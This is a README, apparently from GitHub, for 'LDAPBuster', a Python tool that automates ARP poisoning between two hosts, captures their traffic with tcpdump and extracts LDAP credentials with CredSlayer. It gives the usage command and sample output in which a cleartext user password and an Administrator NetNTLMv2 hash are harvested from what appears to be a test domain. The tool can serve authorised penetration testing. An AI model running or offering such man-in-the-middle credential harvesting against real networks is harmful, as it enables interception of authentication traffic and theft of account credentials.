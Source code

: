 # LDAPBuster
Script to automate the ARP poisoning and credential harvesting of network devices that utilize LDAP for authentication.

This script started as a way to automated the communication between firewalls and remote access appliances that use AD and LDAP for authentication but expanded to allow the targetting of any two addresses and parse credentials passed between them. 

The script with take two inputs, and start an ARP poison attack on them to allow for a MITM. While this is happening, a capture is started to save all data that is captured during the MITM. This runs until you hit neter, in which the file is then saved, the poison stopped, and CredSlayer is then run on the output file automatically to extract all credentials and hashes available. 

Usage: 
```
sudo python test.py --victim VICTIM --target TARGET --output OUTPUT
```

Output: 

```
LDAP Buster
By: Hann1bl3L3ct3r
Script to target two devices for ARP poisoning to capture authentication information which is saved to a file and parsed with CredSlayer.
Note: Must be run as ROOT
[*] IP forwarding enabled.
[*] Starting tcpdump to capture traffic into test.pcap...
[*] tcpdump started and writing to test.pcap
[*] Starting packet forwarding between victim and target...
[*] Press Enter to stop the capture and begin parse...
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
[*] Starting ARP poisoning...

3239 packets captured
3245 packets received by filter
0 packets dropped by kernel
[*] tcpdump stopped and saved to test.pcap.
[*] Starting Parse...
[*] ARP tables restored.
[*] Running CredSlayer on test.pcap...
[INFO] Processing packets in 'test.pcap'
[LDAP 192.168.1.106:33039 <-> 192.168.1.5:389] [FOUND] credentials found: cn=Test User,cn=Users,dc=TEST,dc=local -- Password#1
[INFO] Interesting things have been found but the CredSLayer wasn't able validate them: 
[LDAP 192.168.1.106:33038 <-> 192.168.1.5:389] [INFO]  name:  -- Administrator::TEST:019cef6365b05c2c:BA19872D0F64B8435D17CF3B95FE1709:010100000000000000030E4D34ABD401E3F54FBC526BD95A000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0000000000 -- {'version': 'NETNTLMv2'}
[INFO] Processed in 16.095 seconds.
```
